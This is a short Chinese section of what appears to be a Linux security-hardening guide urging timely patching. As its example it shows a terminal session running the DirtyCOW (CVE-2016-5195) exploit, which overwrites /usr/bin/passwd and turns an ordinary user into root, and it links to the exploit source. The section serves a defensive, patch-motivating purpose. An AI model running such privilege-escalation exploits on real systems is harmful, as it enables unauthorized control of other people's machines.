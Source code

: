 ## 升级安全补丁
及时更新操作系统内核和软件版本，解决已披露的安全漏洞，降低系统被攻击的风险。
![Vulnerabilities by year](images/vulnerabilities_by_year.png)
### 安全漏洞利用示例
![DirtyCOW](images/dirty-cow.jpg)
DirtyCOW 内核提权漏洞(CVE-2016-5195)
普通用户利用该漏洞提权到root用户:
```
fjl@SLES11-3:~> gcc -lpthread cve_2016_5195_exp.c -o cve_2016_5195_exp
fjl@SLES11-3:~>
fjl@SLES11-3:~> id
uid=1000(fjl) gid=100(users) groups=100(users),16(dialout),33(video)
fjl@SLES11-3:~> whoami
fjl
fjl@SLES11-3:~> 
fjl@SLES11-3:~> ./cve_2016_5195_exp
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 81856
Racing, this may take a while..
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
thread stopped
thread stopped
SLES11-3:/home/fjl # id
uid=0(root) gid=100(users) groups=0(root),16(dialout),33(video),100(users)
SLES11-3:/home/fjl # whoami
root
SLES11-3:/home/fjl #
```
![DirtyCOW-CVE-2016-5195-EXP](images/DirtyCOW-CVE-2016-5195-EXP.png)
EXP源码: [cve_2016_5195_exp.c](cve_2016_5195_exp.c)
### 如何实施
* 定期进行安全扫描(Nessus等)，解决安全扫描漏洞;
* 订阅操作系统厂商公告，关注安全补丁发布情况，及时升级安全补丁;
* 关注安全漏洞披露平台，如[CVE](http://www.cvedetails.com/index.php)、[NVD](https://nvd.nist.gov/vuln/full-listing)、[expolit-db](https://www.exploit-db.com/browse/)、[SecurityFocus](http://www.securityfocus.com/vulnerabilities)，跟踪并及时解决安全漏洞。